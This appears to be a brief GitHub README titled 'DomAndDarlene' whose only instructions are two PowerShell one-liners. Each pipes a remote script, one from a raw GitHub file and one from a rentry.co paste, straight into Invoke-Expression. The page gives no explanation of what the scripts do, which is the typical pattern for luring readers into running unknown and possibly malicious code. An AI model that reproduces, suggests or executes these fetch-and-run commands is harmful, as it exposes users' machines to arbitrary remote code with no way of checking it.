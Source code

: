 # DomAndDarlene
Run Away with me

## Powershell:
`iex (iwr https://raw.githubusercontent.com/RavenCraftInitaitives/DomAndDarlene/main/test1.ps1).Content`

Or,

`iex (iwr https://rentry.co/HotCarla/raw).content`
